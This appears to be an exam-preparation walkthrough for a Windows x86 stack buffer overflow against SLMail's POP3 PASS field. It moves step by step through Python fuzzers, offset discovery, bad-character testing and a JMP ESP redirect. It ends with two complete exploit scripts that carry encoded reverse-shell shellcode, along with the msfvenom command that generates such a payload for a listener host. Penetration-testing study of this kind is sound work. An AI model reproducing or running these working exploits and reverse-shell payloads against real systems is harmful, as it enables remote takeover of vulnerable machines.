





## Buffer Overflow - Windows x86

### Intro

In the exam, you are provided with a fuzzing script already.

An example BOF walkthrough: https://steflan-security.com/stack-buffer-overflow-exploiting-slmail-5-5/

---

### 1. FUZZING TO DETERMINE ~BYTES TO CAUSE A CRASH

Guess the number of bytes it takes to crash the application.


Initial Fuzzing
```python
# We want to guess roughly how many bytes it takes to crash the application.

import socket

buffer = ["A"]
counter = 100

while len(buffer) <= 30:
	buffer.append("A" * counter)
	counter += 200

for string in buffer:
	print("Fuzzing password with {} bytes".format(len(string)))
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(("10.11.22.75", 110))
	s.recv(1024)
	s.send("USER test\r\n")
	s.recv(1024)
	s.send("PASS {}\r\n".format(string))
	s.send("QUIT\r\n")
	s.close()
```

Replicate the crash again
```python
# We want to confirm again that it takes roughly X bytes to crash the program

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

string = "A" * 2700

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.22.75', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```
---


### 2. GENERATE OFFSET-DISCOVERY STRING + CALCULATE OFFSET

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```

Look at the value in the **EIP** register.
* `EIP` is the register that we want to control.
* We want to store the address of a `JMP ESP` instruction in EIP, to re-direct execution flow.
* Exploit execution flow: EIP -> JMP ESP -> ESP (shellcode location)

EIP value: 39694438


Controlling the EIP register
```python
# The EIP value of 39694438, the exact offset for EIP is position #2606

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

string = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.22.75', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```

Calculate the offset
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value in EIP]
```

Offset byte number: '2606'


---


### 3. CONFIRM OFFSET IS CORRECT

Confirm that your offset is correct by placing a unique 4-byte string into the EIP register.

EIP value: '42424242' = 'BBBB'


---


### 4. VERIFY SHELLCODE SPACE

Reverse shell payload is typically ~350-500 bytes, so we want to check if there will be enough space for our payload immediately after EIP.

We need to increase the buffer size to 3500 bytes, as a 90 byte payload is not enough for a reverse shell.
```python
# Previously, we used the value 2700 as the buffer size, leaving 90 bytes remaining (2700-2606-4) for our shellcode.
# We not increase it to 3500, which should be plenty of room for the shellcode.

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

string = "A"*2606 + "B"*4 + "C"*(3500-2606-4)

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.22.75', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```
---


### 5. CHECK FOR BAD CHARACTERS

Characters to test (256 in total):

**NOTE: BY DEFAULT WE ASSUME THE NULL CHAR \x00 IS BAD**

Run code with character list -> 'Follow in dump' / go to memory dump:


Memory dump with chars payload -> see which bytes causes the truncation:


```python
# The resulting bad characters are:
# 0x00: NULL char
# 0x0A: Line feed / newline char
# 0x0D: Carriage return char

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

chars =(
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

string = "A"*2606 + "B"*4 + badchars

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.14.134', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```
---

### 6. FIND ADDRESS OF A JMP-ESP IN A .DLL

**NOTE: ENSURE ADDRESS OF SELECTED .DLL WITH JMP-ESP DOES NOT CONTAIN ANY BAD CHARS**

Run `!mona modules` to find a suitable .DLL which has no internal security mechanisms:


Once a .DLL has been found, click on the `e` to list all executable modules/.DLLs loaded with the application and then double-click on the .DLL you found:


Right-click on the instructions windows and select `Search For` ->
* `Command` -> ` JMP ESP`
* `Sequence of Commands` -> `PUSH ESP | RETN`  

Alternative, run `!mona find -s "/xFF/xE4" -m slmfc.dll` to find the OPCODE for `jmp esp` in the entire .DLL:


Choose one of the pointers -> copy its address -> click on "Go to address in Disassembler" -> paste address -> verify that the address actually contains a `JMP ESP` instruction:


Redirect execution flow via. JMP_ESP instruction
```python
# In this part, we have:
# 1. Found a suitable module in the application with no DEP / ASLR / Rebasing
# 2. Found a 'JMP ESP' instruction within the module + the address that the instruction is located at
#    using '!mona find -s "\xff\xe4" -m slmfc.dll' where '\xff\xe4' is the hex OPCODE for JMP ESP.
# 3. Inject address with 'JMP ESP' into the EIP register (via. overflow)
# 4. Execution flow will be re-directed from EIP -> ESP register (addr which points to location of our shellcode).

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

jmp_esp_addr = "\x8f\x35\x4a\x5f"

string = "A"*2606 + jmp_esp_addr + "C"*(3500-2606-4)

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.22.75', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```
---


### 7. GENERATE SHELLCODE

**NOTE: ENSURE AT LEAST NULL \x00 CHAR IS EXCLUDED WHEN GENERATING EXPLOIT CODE**

Generate shellcode and add it to the BOF exploit code.  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.42 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

Provide the shellcode decoder some stack-space to work with: `"\x90 * 16"` Append NOP instructions to the front of the shellcode.

Final payload:
```Python
# PART 6: Generating shellcode
# This is the final exploit code for SLmail
#
# This part involves:
# 1. View all available payloads and select from one: msfvenom -l payloads
# 2. Generate a payload + removing bad chars from payload via. encoding:
#
#	msfvenom -p windows/shell_reverse_tcp
#		LHOST=[ip to send back reverse shell] LPORT=[port]
#		-f c
#		-e x86/shikata_ga_nai -b "\x00\x0a\x0d"
# 3. Pre-pending NOP instructions to our shellcode, so that our shellcode won't
#    be overwritten by Metasploit's decoder.

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Immunity debugger will show this as address "5f4a358f"
jmp_esp_addr = "\x8f\x35\x4a\x5f"

shellcode = ("\xbe\xd7\x89\xc8\xc4\xdb\xdd\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x83\xc2\x04\x31\x72\x0e\x03\xa5\x87\x2a\x31\xb5\x70\x28"
"\xba\x45\x81\x4d\x32\xa0\xb0\x4d\x20\xa1\xe3\x7d\x22\xe7\x0f"
"\xf5\x66\x13\x9b\x7b\xaf\x14\x2c\x31\x89\x1b\xad\x6a\xe9\x3a"
"\x2d\x71\x3e\x9c\x0c\xba\x33\xdd\x49\xa7\xbe\x8f\x02\xa3\x6d"
"\x3f\x26\xf9\xad\xb4\x74\xef\xb5\x29\xcc\x0e\x97\xfc\x46\x49"
"\x37\xff\x8b\xe1\x7e\xe7\xc8\xcc\xc9\x9c\x3b\xba\xcb\x74\x72"
"\x43\x67\xb9\xba\xb6\x79\xfe\x7d\x29\x0c\xf6\x7d\xd4\x17\xcd"
"\xfc\x02\x9d\xd5\xa7\xc1\x05\x31\x59\x05\xd3\xb2\x55\xe2\x97"
"\x9c\x79\xf5\x74\x97\x86\x7e\x7b\x77\x0f\xc4\x58\x53\x4b\x9e"
"\xc1\xc2\x31\x71\xfd\x14\x9a\x2e\x5b\x5f\x37\x3a\xd6\x02\x50"
"\x8f\xdb\xbc\xa0\x87\x6c\xcf\x92\x08\xc7\x47\x9f\xc1\xc1\x90"
"\xe0\xfb\xb6\x0e\x1f\x04\xc7\x07\xe4\x50\x97\x3f\xcd\xd8\x7c"
"\xbf\xf2\x0c\xd2\xef\x5c\xff\x93\x5f\x1d\xaf\x7b\xb5\x92\x90"
"\x9c\xb6\x78\xb9\x37\x4d\xeb\xcc\xcc\x4d\xd4\xb8\xd0\x4d\x2b"
"\x82\x5c\xab\x41\xe4\x08\x64\xfe\x9d\x10\xfe\x9f\x62\x8f\x7b"
"\x9f\xe9\x3c\x7c\x6e\x1a\x48\x6e\x07\xea\x07\xcc\x8e\xf5\xbd"
"\x78\x4c\x67\x5a\x78\x1b\x94\xf5\x2f\x4c\x6a\x0c\xa5\x60\xd5"
"\xa6\xdb\x78\x83\x81\x5f\xa7\x70\x0f\x5e\x2a\xcc\x2b\x70\xf2"
"\xcd\x77\x24\xaa\x9b\x21\x92\x0c\x72\x80\x4c\xc7\x29\x4a\x18"
"\x9e\x01\x4d\x5e\x9f\x4f\x3b\xbe\x2e\x26\x7a\xc1\x9f\xae\x8a"
"\xba\xfd\x4e\x74\x11\x46\x6e\x97\xb3\xb3\x07\x0e\x56\x7e\x4a"
"\xb1\x8d\xbd\x73\x32\x27\x3e\x80\x2a\x42\x3b\xcc\xec\xbf\x31"
"\x5d\x99\xbf\xe6\x5e\x88")

string = "A"*2606 + jmp_esp_addr + "\x90"*16 + shellcode + "C"*(3500 - 2606 - 4 - 16 - 351)

try:
	print("Sending evil buffer...")
	connect = s.connect(('10.11.22.75', 110))
	data = s.recv(1024)
	s.send("USER username" + "\r\n")
	data = s.recv(1024)
	s.send("PASS {}".format(string) + "\r\n")
	s.close()
	print("\nDone")
except Exception as e:
	print(e)
```
---


### 8. EXTRA

See here for a walkthrough of using a "first stage payload": https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/

Running out of shell code space?

Use the front of payload instead.
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
```
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
$ JMP EAX/EBX/ECX/EDX
```
3. Append the address as shell code.
4. Add payload to the front


Alternate finally script which utilises a first stage payload:
```python
#!/usr/bin/python

# BAD CHARS
# \x00
# \x3b
# \x45

# JMP ESP address
# 1480113D

import socket

try:
  print "\nSending evil buffer..."

  shellcode = ("\xd9\xc4\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x52\xb8\x1b\xa9\x17"
"\x8a\x83\xea\xfc\x31\x42\x13\x03\x59\xba\xf5\x7f\xa1\x54\x7b"
"\x7f\x59\xa5\x1c\x09\xbc\x94\x1c\x6d\xb5\x87\xac\xe5\x9b\x2b"
"\x46\xab\x0f\xbf\x2a\x64\x20\x08\x80\x52\x0f\x89\xb9\xa7\x0e"
"\x09\xc0\xfb\xf0\x30\x0b\x0e\xf1\x75\x76\xe3\xa3\x2e\xfc\x56"
"\x53\x5a\x48\x6b\xd8\x10\x5c\xeb\x3d\xe0\x5f\xda\x90\x7a\x06"
"\xfc\x13\xae\x32\xb5\x0b\xb3\x7f\x0f\xa0\x07\x0b\x8e\x60\x56"
"\xf4\x3d\x4d\x56\x07\x3f\x8a\x51\xf8\x4a\xe2\xa1\x85\x4c\x31"
"\xdb\x51\xd8\xa1\x7b\x11\x7a\x0d\x7d\xf6\x1d\xc6\x71\xb3\x6a"
"\x80\x95\x42\xbe\xbb\xa2\xcf\x41\x6b\x23\x8b\x65\xaf\x6f\x4f"
"\x07\xf6\xd5\x3e\x38\xe8\xb5\x9f\x9c\x63\x5b\xcb\xac\x2e\x34"
"\x38\x9d\xd0\xc4\x56\x96\xa3\xf6\xf9\x0c\x2b\xbb\x72\x8b\xac"
"\xbc\xa8\x6b\x22\x43\x53\x8c\x6b\x80\x07\xdc\x03\x21\x28\xb7"
"\xd3\xce\xfd\x18\x83\x60\xae\xd8\x73\xc1\x1e\xb1\x99\xce\x41"
"\xa1\xa2\x04\xea\x48\x59\xcf\xd5\x25\x16\xa8\xbe\x37\xd8\xb7"
"\x82\xb1\x3e\xdd\xea\x97\xe9\x4a\x92\xbd\x61\xea\x5b\x68\x0c"
"\x2c\xd7\x9f\xf1\xe3\x10\xd5\xe1\x94\xd0\xa0\x5b\x32\xee\x1e"
"\xf3\xd8\x7d\xc5\x03\x96\x9d\x52\x54\xff\x50\xab\x30\xed\xcb"
"\x05\x26\xec\x8a\x6e\xe2\x2b\x6f\x70\xeb\xbe\xcb\x56\xfb\x06"
"\xd3\xd2\xaf\xd6\x82\x8c\x19\x91\x7c\x7f\xf3\x4b\xd2\x29\x93"
"\x0a\x18\xea\xe5\x12\x75\x9c\x09\xa2\x20\xd9\x36\x0b\xa5\xed"
"\x4f\x71\x55\x11\x9a\x31\x65\x58\x86\x10\xee\x05\x53\x21\x73"
"\xb6\x8e\x66\x8a\x35\x3a\x17\x69\x25\x4f\x12\x35\xe1\xbc\x6e"
"\x26\x84\xc2\xdd\x47\x8d")
  new_offset = "A"*(2080 - len(shellcode))
  EIP = "\x3d\x11\x80\x14"
  first_stage = "\xff\xe1"

  buffer = shellcode + new_offset + EIP + first_stage

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.167.10", 7002))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```


